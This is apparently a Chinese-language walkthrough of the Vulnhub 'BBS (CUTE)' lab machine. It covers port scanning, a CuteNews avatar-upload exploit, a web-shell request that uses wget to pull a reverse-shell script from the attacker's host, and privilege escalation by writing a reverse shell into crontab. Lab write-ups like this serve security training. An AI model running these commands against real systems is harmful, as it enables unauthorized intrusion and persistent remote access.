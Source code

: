 ```yaml
---
layer: article
title: Vulnhub 567 BBS (CUTE)  1.0.2
tags: pentest vulnhub Walkthrough
---
```


考点：任意文件上传,定时任务

靶机链接：<https://www.vulnhub.com/entry/bbs-cute-102,567/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| BBS (CUTE) | 10.0.2.11 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.11
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) UTF8(USER) TOP STLS IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) TOP UTF8(USER) IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154

```

### WEB测试

#### 端口88

未发现有用信息

#### 端口80

[dirb](https://www.iihack.com/pages/tools/dirb.html)和[dirsearch](https://www.iihack.com/pages/tools/dirsearch.html)都发现了index.php

![](https://static.iihack.com/vulnhub/567/1.PNG)

### 漏洞发现

![](https://static.iihack.com/vulnhub/567/2.PNG)

查看利用脚本，发现CuteNews目录需要手工去除

![](https://static.iihack.com/vulnhub/567/3.PNG)

使用新建的用户`ZOu0fykHPn`登录

## 获得权限

### 靶机测试

![](https://static.iihack.com/vulnhub/567/4.PNG)

头像处是上传的shell

访问<http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php>文件存在

![](https://static.iihack.com/vulnhub/567/5.PNG)

下载r444.php

```http
http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php?cmd=wget http://10.0.2.15/reverse/r444.php
```

访问<http://10.0.2.11/uploads/r444.php>

反弹shell成功

![](https://static.iihack.com/vulnhub/567/6.PNG)

## 提权

将反弹shell写入crontab

![](https://static.iihack.com/vulnhub/567/7.PNG)

![](https://static.iihack.com/vulnhub/567/8.PNG)
